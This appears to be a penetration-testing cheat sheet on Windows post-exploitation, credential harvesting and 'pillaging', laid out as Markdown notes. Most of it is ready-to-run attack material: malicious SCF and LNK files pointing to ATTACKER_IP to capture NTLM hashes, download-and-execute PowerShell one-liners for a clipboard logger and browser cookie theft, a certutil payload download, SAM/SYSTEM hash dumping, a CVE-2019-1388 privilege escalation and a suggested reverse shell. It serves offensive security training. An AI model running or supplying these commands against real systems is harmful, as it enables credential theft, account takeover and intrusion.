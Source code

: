 # ✅ Interacting with Users & Pillaging (Cheat Sheet)

---

## 🎯 Quick Wins
- [ ] **Capture Network Traffic** → Wireshark / tcpdump / net-creds
- [ ] **Monitor Command Lines** → Detect creds in scheduled tasks
- [ ] **SCF / LNK Attack on File Shares** → Capture NTLM hashes
- [ ] **Clipboard Logging** → Capture copy-pasted passwords
- [ ] **Cookie Theft** → Firefox/Chrome SQLite DB + SharpChromium
- [ ] **Key Backup Targets** → .vhd, .vhdx, .vmdk for SAM/SYSTEM
- [ ] **Abuse Weak Permissions** → Writeable scripts in C:\Scripts
- [ ] **Living Off The Land Binaries (LOLBAS)** → certutil, rundll32
- [ ] **Backup Abuse** → Extract hashes or config files
- [ ] **Mimikatz / LaZagne** → Credential dump

---
## ✅ Public Exploits

> they are already in my tools

```c
https://github.com/sickn3ss/exploits/tree/master/CVE-2023-29360/x64/Release
https://github.com/sickn3ss/exploits/
```
## ✅ Network Traffic Capture
```powershell
# If Wireshark installed and Npcap not restricted
# Capture cleartext creds (FTP, HTTP)
# On attack machine
tcpdump -i eth0 -w capture.pcap
net-creds -i capture.pcap
```
## ✅ Monitor Process Command Lines
```c
# Detect creds passed via scheduled tasks or scripts
while($true){
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object $process $process2
}
```
> Example finding:
```c
net use T: \\sql02\backups /user:domain\sqlsvc My4dm1nP@s5w0Rd
```
## ✅ SCF / LNK File Attack for NTLM Hashes
```c
# Malicious SCF
[Shell]
Command=2
IconFile=\\ATTACKER_IP\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
> Run Responder:
```c
sudo responder -wrf -v -I tun0
```
> Crack NTLMv2 hash:
```c
hashcat -m 5600 hash.txt rockyou.txt
```
## ✅ Generate Malicious .LNK (PowerShell)
```c
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\ATTACKER_IP\@pwn.png"
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Save()
```
## ✅ Clipboard Logger
```c
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```
> Output example:
```c
https://portal.azure.com
Administrator@domain.com
Sup3rP@ssword123
```
## ✅ Cookie Theft (Firefox)
```c
# Copy SQLite DB
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```
> Extract Slack cookie:
```c
python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d
```
## ✅ Cookie Theft (Chrome)
```c
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"
```
## ✅ Pillaging – Interesting Locations

- [ ] Browser Data → Chrome/Firefox profiles
- [ ] Password Managers → KeePass, mRemoteNG (confCons.xml)
- [ ] Config Files → web.config, appsettings.json
- [ ] SSH Keys → id_rsa
- [ ] Backup Files → .vhd, .vhdx, .vmdk
## ✅ mRemoteNG Credential Decryption
```c
# Extract password
python3 mremoteng_decrypt.py -s "<ENCRYPTED_PASSWORD>"
# If master password exists
python3 mremoteng_decrypt.py -s "<ENCRYPTED_PASSWORD>" -p admin
```
## ✅ Mount Virtual Disks & Extract Hashes
```c
# Linux
guestmount -a disk.vmdk -i --ro /mnt/vmdk
guestmount --add backup.vhdx --ro /mnt/vhdx/ -m /dev/sda1

# Dump SAM & SYSTEM
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```
## ✅ LOLBAS: File Download via certutil
```c
certutil.exe -urlcache -split -f http://ATTACKER_IP/file.exe file.exe
```
> Encode/Decode:
```c
certutil.exe -encode input.txt encoded.txt
certutil.exe -decode encoded.txt output.txt
```
## ✅ CVE-2019-1388 Exploit

```c
- Old signed executable → hhupd.exe
- Run as Admin → Open Certificate → Click hyperlink → Browser as SYSTEM
- Breakout: Save As → Type C:\Windows\System32\cmd.exe
```
## ✅ Scheduled Task Enumeration
```c
# IN CMD
schtasks /query /fo LIST /v

# In Powershell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
## ✅ Abusing Writeable Scripts
```c
accesschk64.exe /accepteula -s -d C:\Scripts\
# Append reverse shell or beacon
```
## ✅ Mount & Extract Backup Systems
```c
- Backup software like restic, Veeam, Windows Backup
- Abuse backup creds (usually local admin on all systems)
- Restore snapshots → Extract SAM & SYSTEM → Dump hashes
```
## ✅ Key Tools

```
- Responder / Inveigh → Capture NTLM hashes
- net-creds → Extract creds from PCAP
- SharpChromium → Cookie theft
- Invoke-Clipboard → Clipboard monitoring
- PowerUp.ps1 / WinPEAS → PrivEsc checks
- secretsdump.py → Extract local hashes
```
